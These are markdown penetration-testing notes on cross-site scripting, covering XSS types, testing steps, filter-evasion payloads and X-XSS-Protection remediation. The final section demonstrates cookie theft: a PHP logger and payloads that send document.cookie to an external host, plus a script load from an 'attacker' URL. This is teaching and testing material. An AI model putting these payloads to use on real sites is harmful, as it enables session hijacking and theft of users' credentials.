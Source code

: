 # XSS

## Information
Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into trusted website.

XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user.

OWASP TOP 10: A7-Cross-Site Scripting (XSS)

## Impact
Malicious script can access any cookies, session tokens, or other sensitive information

## Types of XSS
- *Stored XSS*
- *Reflected XSS*
- *DOM Based XSS*

## How to Test (Black Box Testing)
***1. Detect input vectors. For each web page***
- HTTP parameters
- POST data
- Hidden form field values
- Predefined Radio or Selection values

***2. Analyze each input vector to detect potential vulnerabilities***
- (greater than)>
- <(less than) 
- &(ampersand) 
- '(apostrophe or single quote) 
- "(double quote)
- e. g. <script>alert(123)</script>

***3. POC***
```
<script>alert(document.cookie)</script>
<script>alert(document.location)</script>
```

## HTML Filtered Content
- \n (new line) 
- \r (carriage return) 
- \' (apostrophe or single quote) 
- \" (double quote) 
- \\ (backslash) 
- \uXXXX (unicode values)

## Bypass XSS Filters 
Filters are based on a blacklist, they could not block every type of expressions

### e.g. payload’s:
***1. Different Syntax | Encoding***
```
" onfocus="alert(document.cookie)
"><script >alert(document.cookie)</script >
"><ScRiPt>alert(document.cookie)</ScRiPt>
"%3cscript%3ealert(document.cookie)%3c/script%3e
```
***2. Bypassing non-recursive filtering***
```
<scr<script>ipt>alert(document.cookie)</script>
```
***3. Including external script***
```
<script src="http://attacker/xss.js"></script>
http://example/?var=<SRIPT%20a=">"%20SRC="http://attacker/xss.js"></SCRIPT>
```

> https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet (XSS Filter Evasion Cheat Sheet)
> https://github.com/Pgaijin66/XSS-Payloads/blob/master/payload.txt
> https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20injection

## XSS - Remediation     
### Server-Side Validation
- [x] X-XSS-Protection
```
X-XSS-Protection: 0
X-XSS-Protection: 1
X-XSS-Protection: 1; mode=block
X-XSS-Protection: 1; report=<reporting-uri>
```
- ***0***	xss filter disabled
- ***1***	xss filter enabled and sanitized the page if attack detected
- ***1;mode=block***	xss filter enabled and prevented rendering the page if attack detected
- ***1;report=http://example.com/report_URI***	xss filter enabled and reported the violation if attack detected

***Refrence:***
* https://geekflare.com/http-header-implementation/#X-XSS-Protection
* https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-XSS-Protection

### Client/Application side Validation
* https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet (XSS Prevention Cheat Sheet)
* https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet (DOM based XSS Prevention Cheat Sheet)
* https://www.wordfence.com/learn/how-to-prevent-cross-site-scripting-attacks   (Functions to Validate your Data)

## XSS - Demonstration
Retrieve User Cookie Using XSS
1. Create ***steal.php*** file contect with below code.
```
<?php
$cookie=$_COOKIE['PHPSSID'];
$file=fopen('cookie.txt', 'a');
fwrite($file, $cookie . "\n\n");
?>
```
2. Create ***cookie.txt*** file on same directory.
3. Host ***steal.php*** page publicaly which can accessible through internet.
4. Insert Script on Vulnerable Parameter.
```
<script>document.location="http://hostname/steal.php"</script>
e.g:
<script>document.location="http://192.168.88.128/steal.php"</script>

<img src=a onerror=confirm(document.location="http://192.168.88.130/steal.php?cookie=" + document.cookie;)>

```
